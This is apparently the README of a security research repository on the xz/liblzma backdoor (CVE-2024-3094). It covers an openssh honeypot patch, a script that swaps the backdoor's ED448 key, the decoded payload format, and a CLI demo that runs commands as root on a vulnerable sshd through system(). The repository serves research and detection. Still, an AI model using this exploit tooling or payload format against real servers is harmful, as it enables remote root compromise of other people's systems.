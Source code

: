 # xzbot

Exploration of the xz [backdoor](https://www.openwall.com/lists/oss-security/2024/03/29/4) (CVE-2024-3094).
Includes the following:
* [honeypot](#honeypot): fake vulnerable server to detect exploit attempts
* [ed448 patch](#ed448-patch): patch liblzma.so to use our own ED448 public key
* [backdoor format](#backdoor-format): format of the backdoor payload
* [backdoor demo](#backdoor-demo): cli to trigger the RCE assuming knowledge of the ED448 private key

![xzbot demo](assets/demo.png)

## honeypot

See [openssh.patch](openssh.patch) for a simple patch to openssh that logs any
connection attempt with a public key N matching the backdoor format.

```
$ git clone https://github.com/openssh/openssh-portable
$ patch -p1 < ~/path/to/openssh.patch
$ autoreconf
$ ./configure
$ make
```

Any connection attempt will appear as follows in sshd logs:
```
$ journalctl -u ssh-xzbot --since='1d ago' | grep xzbot:
Mar 30 00:00:00 honeypot sshd-xzbot[1234]: xzbot: magic 1 [preauth]
Mar 30 00:00:00 honeypot sshd-xzbot[1234]: xzbot: 010000000100000000000000000000005725B22ED2...
```

# ed448 patch

The backdoor uses a hardcoded ED448 public key for signature validation and
decrypting the payload. If we replace this key with our own, we can trigger
the backdoor.

The attacker's ED448 key is:
```
0a 31 fd 3b 2f 1f c6 92 92 68 32 52 c8 c1 ac 28
34 d1 f2 c9 75 c4 76 5e b1 f6 88 58 88 93 3e 48
10 0c b0 6c 3a be 14 ee 89 55 d2 45 00 c7 7f 6e
20 d3 2c 60 2b 2c 6d 31 00
```

We will replace this key with our own (generated with seed=0):
```
5b 3a fe 03 87 8a 49 b2 82 32 d4 f1 a4 42 ae bd
e1 09 f8 07 ac ef 7d fd 9a 7f 65 b9 62 fe 52 d6
54 73 12 ca ce cf f0 43 37 50 8f 9d 25 29 a8 f1
66 91 69 b2 1c 32 c4 80 00
```

To start, download a backdoored libxzma shared object, e.g.
from https://snapshot.debian.org/package/xz-utils/5.6.1-1.
Then run the patch script. See [assets/](assets/) for examples.

```
$ pip install pwntools
$ shasum -a 256 liblzma.so.5.6.1
605861f833fc181c7cdcabd5577ddb8989bea332648a8f498b4eef89b8f85ad4  liblzma.so.5.6.1
$ python3 patch.py liblzma.so.5.6.1
Patching func at offset: 0x24470
Generated patched so: liblzma.so.5.6.1.patch
```

Then run sshd using this modified `liblzma.so.5.6.1.patch` shared object.

## backdoor format

The backdoor can be triggered by connecting with an SSH certificate with a
payload in the CA signing key N value. This payload must be encrypted and
signed with the attacker's ED448 key.

The structure has the following format:
```
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|   a (32 bit)  |   b (32 bit)  |           c (64 bit)          |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                                                               |
+                     ciphertext (240 bytes)                    +
|                                                               |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
```

A request type is derived from the three values above (`a * b + c`).
If this value is greater than 3, the backdoor skips processing.

* Type 1: unknown, expects zero bytes
* Type 2: executes null-terminated payload with system()
* Type 3: unknown, expects 48 bytes (signed)

The ciphertext is encrypted with chacha20 using the first 32 bytes of the
ED448 public key as a symmetric key. As a result, we can decrypt any
exploit attempt using the following key:
```
0a 31 fd 3b 2f 1f c6 92 92 68 32 52 c8 c1 ac 28
34 d1 f2 c9 75 c4 76 5e b1 f6 88 58 88 93 3e 48
```

The ciphertext has the following format:
```
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                    signature (114 bytes)                      |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
| x (1 bit) |            unused ? (14 bit)          | y (1 bit) |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|        unknown (8 bit)        |         length (8 bit)        |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|        unknown (8 bit)        |         command \x00          |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
```

Setting either `x` or `y` leads to slightly different code paths.

The signature is an RFC-8032 ED448 signature computed over the following values:
* The 32-bit magic value (e.g. `02 00 00 00`)
* The 5 bytes of fields before command
* [optional] `length` bytes of the command
* The first 32 bytes of the sha256 hash of the server's hostkey

# backdoor demo

```
$ go install github.com/amlweems/xzbot@latest
```

```
$ xzbot -h
Usage of xzbot:
  -addr string
        ssh server address (default "127.0.0.1:2222")
  -seed string
        ed448 seed, must match xz backdoor key (default "0")
  -cmd string
        command to run via system() (default "id > /tmp/.xz")
```

The following will connect to a vulnerable SSH server at `127.0.0.1:2222` and
run the command `id > /tmp/.xz`:
```
$ xzbot -addr 127.0.0.1:2222 -cmd 'id > /tmp/.xz'
00000000  00 00 00 1c 73 73 68 2d  72 73 61 2d 63 65 72 74  |....ssh-rsa-cert|
00000010  2d 76 30 31 40 6f 70 65  6e 73 73 68 2e 63 6f 6d  |-v01@openssh.com|
00000020  00 00 00 00 00 00 00 03  01 00 01 00 00 01 01 01  |................|
00000030  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
...
00000150  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000160  00 00 01 14 00 00 00 07  73 73 68 2d 72 73 61 00  |........ssh-rsa.|
00000170  00 00 01 01 00 00 01 00  02 00 00 00 01 00 00 00  |................|
00000180  00 00 00 00 00 00 00 00  54 97 bc c5 ef 93 e4 24  |........T......$|
00000190  cf b1 57 57 59 85 52 fd  41 2a a5 54 9e aa c6 52  |..WWY.R.A*.T...R|
000001a0  58 64 a4 17 45 8a af 76  ce d2 e3 0b 7c bb 1f 29  |Xd..E..v....|..)|
000001b0  2b f0 38 45 3f 5e 00 f1  b0 00 15 84 e7 bc 10 1f  |+.8E?^..........|
000001c0  0f 5f 50 36 07 9f bd 07  05 77 5c 74 84 69 c9 7a  |._P6.....w\t.i.z|
000001d0  28 6b e8 16 aa 99 34 bf  9d c4 c4 5c b8 fd 4a 3c  |(k....4....\..J<|
000001e0  d8 2b 39 32 06 d9 4f a4  3a 00 d0 0b 0f a2 21 c0  |.+92..O.:.....!.|
000001f0  86 c3 c9 e2 e6 17 b4 a6  54 ba c3 a1 4c 40 91 be  |........T...L@..|
00000200  91 9a 2b f8 0b 18 61 1c  5e e1 e0 5b e8 00 00 00  |..+...a.^..[....|
00000210  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
...
00000260  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000270  00 00 00 00 00 00 00 00  00 00 00 10 00 00 00 07  |................|
00000280  73 73 68 2d 72 73 61 00  00 00 01 00              |ssh-rsa.....|
2024/03/30 00:00:00 ssh: handshake failed: EOF
```

On the vulnerable server, we can set a watchpoint for the call to `system()`
and observe the command is executed:
```
$ bpftrace -e 'watchpoint:0x07FFFF74B1995:8:x {
    printf("%s (%d): %s\n", comm, pid, str(uptr(reg("di"))))
}'
Attaching 1 probe...
sshd (1234): id > /tmp/.xz

$ cat /tmp/.xz
uid=0(root) gid=0(root) groups=0(root)
```

The process tree after exploitation looks different from a normal sshd
process tree:
```
# normal process tree
$ ssh foo@bar
$ ps -ef --forest
root         765       1  0 17:58 ?        00:00:00 sshd: /usr/sbin/sshd -D [listener] 0 of 10-100 startups
root        1026     765  7 18:51 ?        00:00:00  \_ sshd: foo [priv]
foo         1050    1026  0 18:51 ?        00:00:00      \_ sshd: foo@pts/1
foo         1051    1050  0 18:51 pts/1    00:00:00          \_ -bash

# backdoor process tree
$ xzbot -cmd 'sleep 60'
$ ps -ef --forest
root         765       1  0 17:58 ?        00:00:00 sshd: /usr/sbin/sshd -D [listener] 0 of 10-100 startups
root         941     765  4 18:04 ?        00:00:00  \_ sshd: root [priv]
sshd         942     941  0 18:04 ?        00:00:00      \_ sshd: root [net]
root         943     941  0 18:04 ?        00:00:00      \_ sh -c sleep 60
root         944     943  0 18:04 ?        00:00:00          \_ sleep 60
```
